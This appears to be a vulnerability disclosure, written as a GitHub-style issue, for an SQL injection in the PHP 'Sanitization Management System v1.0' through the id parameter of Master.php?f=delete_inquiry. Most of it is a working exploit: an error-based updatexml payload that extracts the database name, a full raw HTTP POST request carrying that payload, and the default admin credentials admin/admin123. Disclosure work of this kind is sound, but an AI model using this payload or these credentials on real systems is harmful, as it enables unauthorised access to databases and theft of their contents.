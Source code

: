 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Hujozay

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-sms/classes/Master.php?f=delete_inquiry

Vulnerability location: /php-sms/classes/Master.php?f=delete_inquiry, id

dbname =sms_db,length=6

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /php-sms/classes/Master.php?f=delete_inquiry HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/php-sms/admin/?page=services
Content-Length: 65
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/195979806-5c00e418-65c9-4ebd-b5a2-0c8becd41256.png)
******
